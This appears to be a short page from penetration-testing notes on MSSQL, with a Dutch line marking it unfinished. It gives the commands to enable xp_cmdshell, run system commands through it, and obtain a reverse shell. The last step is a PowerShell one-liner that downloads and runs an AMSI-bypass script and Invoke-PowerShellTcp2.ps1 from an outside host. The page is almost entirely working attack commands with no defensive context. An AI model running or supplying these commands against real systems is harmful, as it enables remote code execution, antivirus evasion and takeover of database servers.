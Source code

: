 # Executing Commands

## PAGINA MOET NOG WORDEN UITGEBREID

1. Enable xp\_cmdshell

```
EXEC sp_configure 'show advanced options',1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell',1
RECONFIGURE
```

![](<../../../.gitbook/assets/image (69).png>)

2\. Execute commands with xp\_cmdshell:

```
EXEC master..xp_cmdshell 'whoami'
```

![](<../../../.gitbook/assets/image (60).png>)

3\. Gain a reverse shell and execute commands

```
EXEC master..xp_cmdshell 'powershell iex (New-Object Net.WebClient).DownloadString(''http://192.168.248.3:8090/amsi.txt''); iex (New-Object Net.WebClient).DownloadString(''http://192.168.248.3:8090/Invoke-PowerShellTcp2.ps1'')"'
```

![](<../../../.gitbook/assets/image (45).png>)
